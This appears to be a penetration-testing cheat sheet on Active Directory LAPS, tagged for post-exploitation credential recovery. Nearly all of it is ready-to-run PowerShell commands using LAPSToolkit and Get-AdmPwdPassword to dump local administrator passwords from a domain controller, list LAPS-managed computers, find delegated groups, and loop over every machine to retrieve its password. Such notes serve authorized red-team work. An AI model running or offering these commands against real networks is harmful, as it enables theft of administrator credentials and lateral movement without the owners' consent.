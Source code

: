 # LAPS

% laps, password

## get laps passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get laps computer list
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

## find the list of group who can manipulate SAM data
```powershell
Import-Module .\LAPSToolkit.ps1
Find-LAPSDelegatedGroups
```

## get all machine passwords
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
